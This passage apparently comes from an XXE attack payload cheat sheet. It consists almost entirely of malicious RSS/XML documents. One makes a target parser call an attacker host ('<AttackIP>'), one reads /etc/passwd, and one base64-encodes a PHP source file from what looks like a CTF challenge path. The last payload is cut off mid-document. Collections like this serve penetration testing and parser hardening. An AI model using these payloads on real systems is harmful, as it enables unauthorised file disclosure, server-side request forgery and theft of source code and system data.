 Simple HTTP request to attackers server

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "http://<AttackIP>/rssXXE" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>XXE Test Blog</title>
<link>http://example.com/</link>
<description>XXE Test Blog</description>
<lastBuildDate>Mon, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>Test Post</description>
<author>author@example.com</author>
<pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

### Read file

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

### Read source code

Using PHP base64 filter

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///challenge/web-serveur/ch29/index.php" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
```